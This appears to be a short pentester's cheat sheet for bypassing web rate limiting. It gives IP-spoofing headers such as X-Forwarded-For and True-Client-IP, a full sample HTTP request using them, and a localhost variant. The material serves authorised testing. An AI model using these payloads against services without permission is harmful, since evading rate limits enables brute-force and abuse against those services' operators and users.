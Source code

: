 ___
### Identify rate limiting technique

Potential:

- Headers?
- User agents?
- Cookies? Session tokens?
- HTTP verb tamperng?
- Decrease amount and speed of requests?

**Quick win headers:**
```
X-Real-IP:
X-Forwarded-For:
X-Originating-IP:
Client-IP:
True-Client-IP:
```
1st, get yourself rate limited, then send a request with these headers, check bypass
```
POST / HTTP/2
Host: jacobh.io
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
X-Real-IP: 1.2.3.4
X-Forwarded-For: 1.2.3.4
X-Originating-IP: 1.2.3.4
Client-IP: 1.2.3.4
True-Client-IP: 1.2.3.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
Also try localhost
```
X-Real-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
```
